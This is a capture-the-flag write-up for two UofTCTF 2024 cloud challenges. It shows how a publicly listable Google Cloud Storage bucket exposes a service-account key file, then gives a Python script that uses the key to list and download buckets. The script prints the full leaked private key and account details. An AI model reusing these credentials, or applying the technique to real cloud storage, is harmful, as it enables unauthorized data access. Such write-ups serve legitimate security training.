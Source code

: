 # Uoftctf-2024

# Out of the Bucket

Check out my flag website! Author: windex

https://storage.googleapis.com/out-of-the-bucket/src/index.html
-----------------------------------------------------------------------------------------------------------------------------
First, access to the website according to the given link:

![image](https://github.com/k1ll50m30n3/Uoftctf-2024/assets/69716087/c880c8f3-55c2-45e3-ade7-5c001796523f)

Basically, I first F12 checked their source to see if there was any information, but got nothing. I looked at the path with the site to see if there were any problems, specifically if I could query other files through the path ( In fact, I noticed it's similar to the static websites I build on my localhost :v). So I tried to edit its path by deleting `index.html` and reloading but I didn't get anything back, so I continued to delete `src/index.html` then gets the document tree. Here I can see the files (index.html, antwerp.jpg, guam.jpg, style.css) exported in the initial web interface and in addition there is a file `funny.json` and a path `src\dont_show.json`

![image](https://github.com/k1ll50m30n3/Uoftctf-2024/assets/69716087/ffd2ce42-9d07-467b-a98a-536f55d20ffe)

I access the funny.json file following its path (`secret/funny.json`) 

![image](https://github.com/k1ll50m30n3/Uoftctf-2024/assets/69716087/37aa62bd-66a2-4ca8-8272-2000989e8e52)

Looking at its content, I see it contains authentication information...hmmm I haven't used it for now. I proceed to access the path `src/dont_show` and my browser automatically downloaded it to my computer, then I open it with Notepad.

![image](https://github.com/k1ll50m30n3/Uoftctf-2024/assets/69716087/ea1c06be-cc0f-4bd4-ba5a-52a807bd8dad)

And I finally got the flag for this challenge.


# Out of the Bucket 2

This is a continuation of "Out of the Bucket". Take a look around and see if you find anything!
Author: windex
-------------------------------------------------------------------------------------------------------------------------------------------------
Next, for this challenge, I think I have to reuse the authentication information from the first challenge (funny.json file) that I haven't used yet.
I paid attention to the information fields in the file like auth_uri,token_uri,... and as well as `storage.googleapis.com` is in the site path, I searched for information related to them on the internet and got a some information about 'Google Cloud Storage with credentials'.
(`https://stackoverflow.com/questions/52808848/how-to-initialize-google-cloud-storage-with-credentials`, `https://stackoverflow.com/questions/49748910/python-download-entire-directory-from-google-cloud-storage`)

![image](https://github.com/k1ll50m30n3/Uoftctf-2024/assets/69716087/aafb5752-36d6-498e-8941-f3abd1ca2ea5)

Didn't disappoint me, I found a few articles on stackoverfow, and now I can get an accurate opinion on everything I was thinking. The value fields are as shown in the article, they correspond to the value fields in the file 'funny.json'.
My task now is to use the authentication information in the funny.json file to be able to access the file content stored on Google Cloud Storage.
Based on the information in the article on Stackoverflow, I wrote a python code file to access Google Cloud Storage.
```
from google.cloud import storage
from google.oauth2 import service_account

credentials_dict ={
  "type": "service_account",
  "project_id": "out-of-the-bucket",
  "private_key_id": "21e0c4c5ef71d9df424d40eed4042ffc2e0af224",
  "private_key": "-----BEGIN PRIVATE KEY-----\nMIIEvQIBADANBgkqhkiG9w0BAQEFAASCBKcwggSjAgEAAoIBAQDWxpWEDNiWgMzz\nxDDF64CspqiGPxkrHfhS4/PX8BrxNjUMPAH7vYHE3KbgQsmPhbCte9opnSLdMqec\nWjll8lRZGEy73xhWd2e3tVRAf53r+pW/p6MTOsz3leUkQAscG4hmOVOpGb1AkfuE\n62NErJVZIgQCowrBdFGbPxQc/IRQJKzrCFfKOWSHLvnngr4Ui5CSr6OM33dfpD+v\nQSLkEQheYCXmHwh/Wf8b27be+RzfOp/hOyjKsJOmDvFu2+rrx24t8hCptof3BYol\nUjpaiB8Qcct/HoKOEvZ/S5rW6toQizP8t4t7urC2i70JdH+Y4Qw/AZJNuLo/5wW1\n+x8i3FIDAgMBAAECggEABaGapVC06RVNdQ1tffL+d7MS8296GHWmX34B6bqDlP7S\nhenuNLczoiwVkAcQQ9wXKs/22Lp5rIpkd1FXn0MAT9RhnAIYdZlB4JY3iaK5oEin\nXn67Dt5Ze3BfBq6ghpx43L1KDUKogfs8jgVMoANVEyDfhrYsVQWDZ5T60QZp7bP2\n0zSDSACZpFzdf1vXzOhero8ykwM3keQiCIKWYkeMGsX8oHyWr1fz7AkU+pLciV67\nek10ItJUV70n2C65FgrW2Z1TpPKlpNEm8jQLSax9Bi89HuFEw8UjTfxKKzhLFXEu\nudtAyebt/PC4HS9FLBioo3bAy8vL3o00b7+raVyJQQKBgQD3IWaD5q5s7H0r10S/\n7IUhP1TDYhbLh7pupbzDGzu9wCFCMItwTEm9nYVNToKwV+YpeyoptEHQa4CAVp21\nO4+W7mBQgYemimjTtx1bIW8qzdQ9+ltQXyFAxj6m3KcuAsAzSpcHkbP46lCL5QoT\nTS6T06Fs4xvnTKtBdPeisSgiIwKBgQDee+mp5gsk8ynnp6fx0/liuO3AZxpTYcP8\nixaXLQI6CI4jQP2+P+FWNCTmEJxMaddXNOmmTaKu25S2H0KKMiQkQPuwBqskck3J\npVTHudnUuZAZWE7YPg40MJgg5OQhMVwiqGWL76FT2bubIdNm4LQyxvDeK82XQYl8\nszeOXfJeoQKBgGQqSoXdwwbtF5Lkbr4nnJIsPCvxHvIhskPUs1yVNjKjpBdS28GJ\nej37kaMS1k+pYOWhQSakJCTY3b2m3ccuO/Xd6nXW+mdbJD/jsWdVdtxvjr4MMmSy\nGiVJ9Ozm9G/mt4ZSjkKIIN0cA8ef7uSB3QYXug8LQi0O2z7trM1pZq3nAoGAMPhD\nOSMqRsrC6XtMivzmQmWD5zqKX9oAAmE26rV8bPufFYFjmHGFDq1RhdYYIPWW8Vnz\nJ6ik6ynntKJyyeo5bEVlYJxHJTGHj5+1ZnSwzpK9dearDAu0oqYjhfH7iJbNuc8o\n8sEe2E7vbTjnyBgjcZ26PJyVlvpU4b6stshU5aECgYEA7ZESXuaNV0Er3emHiAz4\noEStvFgzMDi8dILH+PtC3J2EnguVjMy2fceQHxQKP6/DCFlNqf9KUNqJBKVGxRWP\nIM1rcoAmf0sGQ5gl1B1K8PidhOi3dHF0nkYvivuMoj7sEyr9K88y69kdpVJ3J556\nJWqkWLCz8hx+LcQPfDJu0YE=\n-----END PRIVATE KEY-----\n",
  "client_email": "image-server@out-of-the-bucket.iam.gserviceaccount.com",
  "client_id": "102040203348783466577",
  "auth_uri": "https://accounts.google.com/o/oauth2/auth",
  "token_uri": "https://oauth2.googleapis.com/token",
  "auth_provider_x509_cert_url": "https://www.googleapis.com/oauth2/v1/certs",
  "client_x509_cert_url": "https://www.googleapis.com/robot/v1/metadata/x509/image-server%40out-of-the-bucket.iam.gserviceaccount.com",
  "universe_domain": "googleapis.com"
}

credentials = service_account.Credentials.from_service_account_info(credentials_dict)
client = storage.Client( credentials=credentials) 
buckets=list(client.list_buckets())
print(buckets) # get list bucket 
bucket_flag = client.get_bucket('flag-images') #access to bucket
#bucket_flag = client.get_bucket('out-of-the-bucket')

for blob in bucket_flag.list_blobs():
	print(blob)
	filename = blob.name.replace('/', '_') 	
	blob.download_to_filename('flag/'+ filename) #download file to folder './flag'
	print("download file: {}".format(blob.name))
```
Run the code and get the following results:

![image](https://github.com/k1ll50m30n3/Uoftctf-2024/assets/69716087/ccdb769f-649f-4bf7-ad65-a31c0e0620ad)

To explain the code:

I access Google Cloud Storage through:
`credentials = service_account.Credentials.from_service_account_info(credentials_dict
client = storage.Client( credentials=credentials)`

Next, I got information about the existing buckets on Google Cloud Storage using `buckets=list(client.list_buckets())` as you can see in the code execution results, we have 2 buckets: `flag-images` and `out-of-the-bucket` in first line.

Next, I proceeded to access bucket `flag-images` because I also tried accessing bucket `out-of-the-bucket` before but didn't get anything of value.

Proceed to query the `blob` in the `bucket`. `blob.name` includes the entire directory structure + filename, so if you want the same file name as in the bucket, you might want to extract it first (instead of replacing `/` with `_ `)

After completing the download process, I checked the downloaded content in the 'flag' folder.

![image](https://github.com/k1ll50m30n3/Uoftctf-2024/assets/69716087/9048ec8d-f08d-445e-a6fa-cfd384e2ccb3)

I noticed that there is an image file '256x192_xa.png' that is different from other image files.

![image](https://github.com/k1ll50m30n3/Uoftctf-2024/assets/69716087/cd4458f2-ec5d-4dda-bb8a-8c44f3f74e72)

Finnally, I got the flag for this challenge!!!

----------------------------------------------------------------------------------------

Thank you for reading. In addition, there are other challenges I will update their write-ups later!. Nice CTF)))
